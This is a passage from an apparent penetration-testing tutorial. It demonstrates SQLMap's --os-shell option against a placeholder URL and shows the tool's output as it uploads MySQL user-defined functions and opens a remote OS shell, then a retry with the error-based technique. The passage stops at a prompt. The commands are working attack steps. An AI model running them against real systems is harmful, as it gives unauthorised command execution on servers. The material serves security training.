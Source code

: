Now that we confirmed that we could write a PHP shell to get command execution, we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output

```

We see that SQLMap defaulted to `UNION` technique to get an OS shell, but eventually failed to give us any output `No output`. So, as we already know we have multiple types of SQL injection vulnerabilities, let's try to specify another technique that has a better chance of giving us direct output, like the `Error-based SQL Injection`, which we can specify with `--technique=E`:

```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
```
